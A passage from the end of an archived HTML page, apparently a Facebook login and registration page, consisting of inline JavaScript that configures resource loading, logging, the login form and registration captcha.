C.js"},"H42Jh":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y3\/r\/ppwOo4BAmlb.js"},"AtxWD":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y1\/r\/fvXyHGM5qlP.js"}});
Bootloader.enableBootload({"legacy:async-signal":{"resources":["YO7w5"]},"editor":{"resources":["YO7w5","wLu\/7","JE+14"]},"AsyncDOM":{"resources":["YO7w5","gM1Bs"],"module":true},"ConfirmationDialog":{"resources":["YO7w5","wLu\/7","oE4Do"],"module":true},"Dialog":{"resources":["YO7w5","wLu\/7","byJia"],"module":true},"registration":{"resources":["YO7w5","wLu\/7","JE+14","A77NA","T8gbI","\/K81D"]},"IframeShim":{"resources":["YO7w5","wLu\/7","GTz7X","MqSmz"],"module":true},"ErrorSignal":{"resources":["YO7w5","cNca2"],"module":true},"event-extensions":{"resources":["YO7w5"],"module":true},"AsyncDialog":{"resources":["YO7w5","wLu\/7","GTz7X","byJia"],"module":true},"FbdDialogProvider":{"resources":["\/vuZw","YO7w5","bwsMw"],"module":true},"React":{"resources":["gM1Bs"],"module":true},"AsyncRequest":{"resources":["YO7w5"],"module":true},"PhotoSnowlift":{"resources":["YO7w5","wLu\/7","GTz7X","byJia","3quxQ"],"module":true},"SpotlightShareViewer":{"resources":["YO7w5","wLu\/7","X\/Fq6","zyFOp"],"module":true},"PhotoTagger":{"resources":["YO7w5","wLu\/7","byJia","9kSd2","3quxQ","GTz7X","SRzKv","KQ5I8"],"module":true},"fb-photos-snowlift-css":{"resources":["iQgIT","byJia"]},"Live":{"resources":["YO7w5","gM1Bs"],"module":true},"PhotoTagApproval":{"resources":["YO7w5","3quxQ","SRzKv"],"module":true},"PhotoTags":{"resources":["YO7w5","3quxQ","byJia","SRzKv"],"module":true},"TagTokenizer":{"resources":["YO7w5","3quxQ","M2hRu","SRzKv","byJia","GTz7X"],"module":true},"fb-photos-snowlift-fullscreen-css":{"resources":["VDymv"]},"PhotoPivot":{"resources":["YO7w5","wLu\/7","3quxQ","GTz7X","byJia","2ma5f"],"module":true},"SnowliftPicCropper":{"resources":["YO7w5","wLu\/7","byJia","3quxQ","GTz7X","j07DW","wxq+C"],"module":true},"PhotosButtonTooltips":{"resources":["YO7w5","GTz7X","wLu\/7","byJia","DZmeF"],"module":true},"VideoRotate":{"resources":["YO7w5","H42Jh"],"module":true},"AsyncResponse":{"resources":["YO7w5"],"module":true},"PhotoInlineEditor":{"resources":["YO7w5","3quxQ","GTz7X","wLu\/7","byJia","SRzKv","AtxWD"],"module":true},"Form":{"resources":["YO7w5","wLu\/7"],"module":true},"Toggler":{"resources":["YO7w5","wLu\/7","byJia","GTz7X"],"module":true},"Tooltip":{"resources":["YO7w5","GTz7X","wLu\/7","byJia"],"module":true},"DOM":{"resources":["YO7w5"],"module":true},"Input":{"resources":["YO7w5"],"module":true},"trackReferrer":{"resources":[],"module":true},"DimensionTracking":{"resources":["YO7w5"],"module":true},"HighContrastMode":{"resources":["YO7w5"],"module":true},"detect-broken-proxy-cache":{"resources":["YO7w5"]}});</script>
<script>require("InitialJSLoader").loadOnDOMContentReady(["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"]);</script>
<script>
Bootloader.configurePage(["A77NA","byJia","VuNPD"]);
Bootloader.done(["jDr+c"]);


require("InitialJSLoader").handleServerJS({"elements":[["m639397_2","login_form",2],["m639397_3","loginbutton",2],["m639398_4","login_form",2],["m639395_1","reg",2]],"define":[["BanzaiConfig",[],{"MAX_SIZE":10000,"MAX_WAIT":60000,"COMPRESSION_THRESHOLD":800,"gks":{"cavalry":true,"jslogger":true,"miny_compression":true,"notifications":true,"time_spent":true,"time_spent_debug":true,"useraction":true}}]],"require":[["PixelRatio","startDetecting",[],[1]],["FlipDirectionOnKeypress"],["PostLoadJS","loadAndRequire",[],["DimensionTracking"]],["PostLoadJS","loadAndCall",[],["HighContrastMode","init",[{"currentState":null,"spacerImage":"https:\/\/s-static.ak.facebook.com\/rsrc.php\/v2\/y4\/r\/-PAXP-deijE.gif"}]]],["IEPinnedSite","listenToNotifications",[],["https:\/\/s-static.ak.facebook.com\/rsrc.php\/yP\/r\/FE37bBX_c2p.ico"]],["ClickRefLogger"],["userAction","setUATypeConfig",[],[{"ua:n":false,"ua:i":false,"ua:d":false,"ua:e":false}]],["ScriptPathState","setUserURISampleRate",[],[0.0002]],["userAction","setCustomSampleConfig",[],[{"uan":{"test":{"test":true}}}]],["UserActionHistory"],["TinyViewport"],["WebStorageMonster","schedule",[],[false]],["AsyncRequestNectarLogging"],["LoginFormController","init",["m639397_2","m639397_3"],[{"__m":"m639397_2"},{"__m":"m639397_3"}]]]});

onloadRegister_DEPRECATED(function (){useragentcm();});
onloadRegister_DEPRECATED(function (){
      if (typeof RegUtil == 'undefined') {
        RegUtil = function() {};
      }
      RegUtil.captcha_class="ReCaptchaCaptcha";
      RegUtil.recaptcha_public_key="6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL";
      });
onloadRegister_DEPRECATED(function (){RegistrationBootloader.init("registration_container", true, "reg", "form_focus", "https:\/\/www.facebook.com\/ajax\/register.php");});
onloadRegister_DEPRECATED(function (){startFormTypeABTester($("reg"))});
onloadRegister_DEPRECATED(function (){$("u5v8wy73").value = tz_calculate(1354996393)});
onloadRegister_DEPRECATED(function (){try { $("email").focus(); } catch (_ignore) { }});
onafterloadRegister_DEPRECATED(function (){Bootloader.loadComponents(["detect-broken-proxy-cache"], function(){ detect_broken_proxy_cache("0", "c_user") });});
</script>
<script>var bigPipe = new (require('BigPipe'))({"lid":0,"forceFinish":true});</script>

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"first_response","phase":0})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"","phase":1,"the_end":true})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           </body></html>
